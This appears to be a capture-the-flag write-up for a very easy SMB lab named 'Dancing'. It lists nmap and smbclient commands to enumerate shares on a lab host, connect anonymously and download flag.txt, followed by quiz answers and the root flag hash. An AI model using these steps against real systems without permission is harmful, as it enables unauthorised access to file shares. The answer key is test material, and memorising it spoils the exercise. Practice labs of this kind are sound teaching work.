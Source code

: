 # Dancing - Very Easy

```shell
nmap -T4 -p 445 -A 10.129.254.67
#scans the machine at port 445

smbclient -L //10.129.254.67
#checks the shares

smbclient //10.129.254.67/WorkShares
#connect to WorkShares

ls
#this shows two directories

cd James.P\

ls

get flag.txt

quit

cat flag.txt
#root flag
```

1. What does the 3-letter acronym SMB stand for? - Server Message Block

2. What port does SMB use to operate at? - 445

3. What network communication model does SMB use? - client-server model

4. What is the service name for port 445 that came up in our nmap scan? - microsoft-ds

5. What is the tool we used to connect to SMB shares from our Linux distribution? - smbclient

6. What is the flag we can use with the SMB tool to list the contents of the share? - -L

7. What is the name of the share we are able to access in the end?

8. Root flag - 5f61c10dffbc77a704d76016a22f1664
